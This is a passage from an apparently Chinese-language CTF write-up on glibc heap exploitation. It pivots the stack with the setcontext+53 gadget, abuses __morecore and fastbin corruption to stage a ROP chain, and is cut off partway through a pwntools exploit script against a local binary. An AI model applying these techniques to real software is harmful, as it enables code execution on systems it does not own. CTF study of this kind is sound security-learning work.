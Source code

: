 而此時將 `_allocate_buffer` 設為 `setcontext+53`，就能控制 rsp + `push rcx ; ret`:

```c
<setcontext+53>:      mov    rsp,QWORD PTR [rdi+0xa0]
<setcontext+60>:      mov    rbx,QWORD PTR [rdi+0x80]
<setcontext+67>:      mov    rbp,QWORD PTR [rdi+0x78]
<setcontext+71>:      mov    r12,QWORD PTR [rdi+0x48]
<setcontext+75>:      mov    r13,QWORD PTR [rdi+0x50]
<setcontext+79>:      mov    r14,QWORD PTR [rdi+0x58]
<setcontext+83>:      mov    r15,QWORD PTR [rdi+0x60]
<setcontext+87>:      mov    rcx,QWORD PTR [rdi+0xa8]
<setcontext+94>:      push   rcx
<setcontext+95>:      mov    rsi,QWORD PTR [rdi+0x70]
<setcontext+99>:      mov    rdx,QWORD PTR [rdi+0x88]
<setcontext+106>:     mov    rcx,QWORD PTR [rdi+0x98]
<setcontext+113>:     mov    r8,QWORD PTR [rdi+0x28]
<setcontext+117>:     mov    r9,QWORD PTR [rdi+0x30]
<setcontext+121>:     mov    rdi,QWORD PTR [rdi+0x68]
<setcontext+125>:     xor    eax,eax
<setcontext+127>:     ret    
```

而如果要執行到能控制的 rop，`[rdi+0xa0]` 就必須為指定位置，這邊找了一個指向 `__default_morecore` 的 function pointer `__morecore`，並且將 `rdi` 傳入 `__morecore - 8 - 0xa0`，這邊 -8 的原因是因為 `mov rcx,QWORD PTR [rdi+0xa8] ; push rcx ; ret`。在 push 後會把 `__default_morecore` push 到 stack 上，並在最後值型，而這邊選 `__morecore` 的原因也是因為 `[rdi+0xa8]` 要是一個可執行 + 不會弄壞 stack 的 function。`__default_morecore` 雖然會執行 `sbrk` 會失敗，但是不會 crash，因此能在 `ret` 後執行 ROP:

```c
<__default_morecore>:         sub    rsp,0x8
<__default_morecore+4>:       call   0x155555072500 <sbrk>
<__default_morecore+9>:       mov    edx,0x0
<__default_morecore+14>:      cmp    rax,0xffffffffffffffff
<__default_morecore+18>:      cmove  rax,rdx
<__default_morecore+22>:      add    rsp,0x8
<__default_morecore+26>:      ret
```

而 ROP 一樣是透過 fastbin chunk 的方式改寫 `_morecore - 8` 為 `heap + 0x3000`，並在 `heap + 0x3000` 堆 ROP，最後就能順利執行 ROP chain。完整 exploit 如下:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

r = process("./H", env={"LD_PRELOAD": "./libc.so.6"}, aslr=False)
gdb.attach(r, """
c
""")

"""
1. malloc
2. edit
3. free
"""

def malloc(sz):
    r.sendlineafter('>> ', '1')
    r.sendlineafter('size: ', str(sz))

def edit(off, ct):
    r.sendlineafter('>> ', '2')
    r.sendlineafter('offset: ', str(off))
    r.sendlineafter('size: ', str(len(ct)))
```